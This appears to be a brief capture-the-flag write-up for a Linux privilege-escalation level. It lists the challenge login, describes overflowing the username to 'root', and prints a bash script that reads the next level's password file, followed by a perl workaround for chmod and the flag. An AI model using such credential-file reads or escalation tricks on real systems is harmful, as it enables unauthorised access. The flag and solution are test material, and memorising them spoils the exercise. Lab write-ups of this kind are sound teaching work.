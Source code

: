 # Level2 Pwnage Linux Level Up Solution

here we need to give username: `nobody`, password: `Ksdkjkk32avsh`, and then in the command we can overflow the user and put there `root`.

this is our short script: [level2.py](./scripts/level2/level2.py)

the file I created is `my_script.sh`, it contains this:
```
#!/bin/bash
pass=$(cat /home/level3/.pass)
echo "Passowrd is: $pass"
```


Notice that we can't use chmod, so i used this: 
`perl -e 'chmod 0755, "my_script.sh"'`

![image](./images/level2.png)

**Flag:** ***`b130hOOfGftXUfmRZlgD`***
